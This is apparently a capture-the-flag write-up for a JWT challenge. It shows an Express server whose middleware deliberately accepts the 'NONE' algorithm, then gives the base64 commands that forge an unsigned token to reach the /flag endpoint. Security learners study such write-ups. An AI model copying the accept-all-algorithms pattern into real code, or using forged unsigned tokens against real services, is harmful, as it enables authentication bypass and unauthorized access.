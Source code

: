 # JWT Authentication

## Description

Get the flag!

## Source Code

```js
const express = require('express');
const jwt = require('jsonwebtoken');
const bodyParser = require('body-parser');

const app = express();
app.use(bodyParser.json());
const SECRETKEY = process.env.SECRETKEY;

// Middleware to verify JWT token
// This API will be used by various microservices. These all pass in the authorization token.
// However the token may be in various different payloads.
// That's why we've decided to allow all JWT algorithms to be used.
app.use((req, res, next) => {
  const token = req.body.token;

  if (!token) {
    return res.status(401).json({ message: 'Token missing' });
  }

  try {
    // Verify the token using the secret key and support all JWT algorithms
    const decoded = jwt.verify(token, SECRETKEY, { algorithms: ['HS256', 'HS384', 'HS512', 'RS256', 'RS384',
                                                                'RS512', 'ES256', 'NONE', 'ES384', 'ES512',
                                                                'PS256', 'PS384', 'PS512'] });

    req.auth = decoded;
    next();
  } catch (err) {
    return res.status(403).json({ message: 'Token invalid' });
  }
});

// API route protected by our authentication middleware
app.post('/flag', (req, res) => {
  if (req.auth.access.includes('flag')) {
    res.json({ message: 'If you can make the server return this message, then you`ve solved the challenge!'});
  } else {
    res.status(403).json({ message: '🚨 🚨 🚨 You`ve been caught by the access control police! 🚓 🚓 🚓' })
  }
});

app.listen(3000, () => {
  console.log(`Server is running on port 3000`);
});
```

## Solution

### Understanding the code

First of all we see that the server runs on the `express` web framework, the code seems to first check if there is the key `token` in the request body, if that's missing, it responds with an error stating : `Token missing`.

However, if the token exists, it attempts to verify it with the variable `SECRETKEY` that holds the secret key, using all supported JWT algorithms.

if the token was not succefully verified, we get the `Token invalid` response, otherwise the code performs a second check after POST requesting the `/flag` endpoint which is verifying the content of the token's data, it checks if the key `access` includes the value `flag`, if that's the case we solve the challenge, otherwise we get this error `🚨 🚨 🚨 You've been caught by the access control police! 🚓 🚓 🚓`.

### Solving the challenge

so our goal here is to forge a JWT token that will contain this in the body :

```json
{
  "access":["flag"]
}
```

and also pass the verification process.

but how are we gonna bypass the verification process since we don't know the secret key ?

we see among the supported algorithms this server accepts is the `NONE` algorithm, which means no algorithm, if we forge a JWT with the `NONE` algorithm, and remove the signature, the server will automatically verify it and accept it, more details can be found [here](https://portswigger.net/kb/issues/00200901_jwt-none-algorithm-supported).

now we know how our JWT token should look like, firs the header will contain :

```json
{
  "alg": "NONE",
  "typ": "JWT"
}
```

and the body as we discussed earlier will contain :

```json
{
  "access":["flag"]
}
```

and finally the signature will be empty.

the JWT token is constructed as follows :

![jwt](images/chal1/jwt.png)

the different parts are all encoded with `base64` and separated by a point `.`

now we understood the format of the token, let's create our own with the propreties we mentioned earlier :

```bash
# Generating the header
echo '{"alg": "NONE","typ": "JWT"}' | base64
eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQo=

# Generating the body
echo '{"access":["flag"]}' | base64
eyJhY2Nlc3MiOlsiZmxhZyJdfQo=
```

of couse we remove the trailing `=` from the outputs, then combine them and we get our token :

```bash
#______________________________________________________________________________
#|              HEADER                  |          DATA             |SIGNATURE|
 eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQo.eyJhY2Nlc3MiOlsiZmxhZyJdfQo.
```

now let's send a POST request to the `/flag` endpoint with this token :

![solved](images/chal1/solved.png)

and with that we solved the first challenge!
